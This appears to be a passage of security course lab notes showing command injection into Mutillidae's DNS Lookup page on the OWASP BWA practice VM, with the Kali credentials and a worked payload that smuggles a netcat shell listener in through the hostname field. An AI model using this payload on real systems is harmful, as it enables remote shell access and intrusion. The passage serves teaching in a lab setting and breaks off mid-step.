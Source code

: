 #### Command Injection Shell

As a method of code injection, chaining limits the number of commands that can be run and the amount of work that can be done on the site. 

Alternatively, attackers can use a command injection shell to establish a reverse shell from the infected web server back to the attacker's machine, where a listener waits to complete the connection.

- We'll use a Netcat listener on the attacker's Kali machine.

#### Command Injection Shell Demonstration

This demonstration will use the following environments:

   - Attacker: Kali Linux 
      - Username: `root`
      - Password: `toor`

   - Vulnerable Web Server: owaspbwa 
      - Mutillidae II > OWASP 2013 > A1 Injection (Other) > Command Injection > DNS Lookup  

Launch the owaspbwa and Kali VMs.

1. In Kali, navigate to the DNS Lookup page. We'll need to set up a listener on the inside of a network. 
   
   - Egress (outbound) filtering on web server firewalls is generally less restrictive than ingress (inbound) filters.

   Enter the following code into the **Hostname/IP** box to establish a listener back to the attacker's machine.

   - `127.0.0.1;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe`

      - `127.0.0.1`: Localhost of the web server.
      - `;`: Indicates the start of the command injection.
      - `mkfifo /tmp/pipe;sh /tmp/pipe`: Makes a FIFO (first-in-first-out) named pipe. 
         - Pipes allow separate processes to communicate. This allows two processes to connect using Netcat and controls the directional flow of data. In this case, data will flow from a compromised web server to an attacker's computer.  
      - `nc -l 4444`: Netcat will establish a listener that allows connections on port `4444`.
        - Please note you'll only see the command below once you have terminated the connection.
   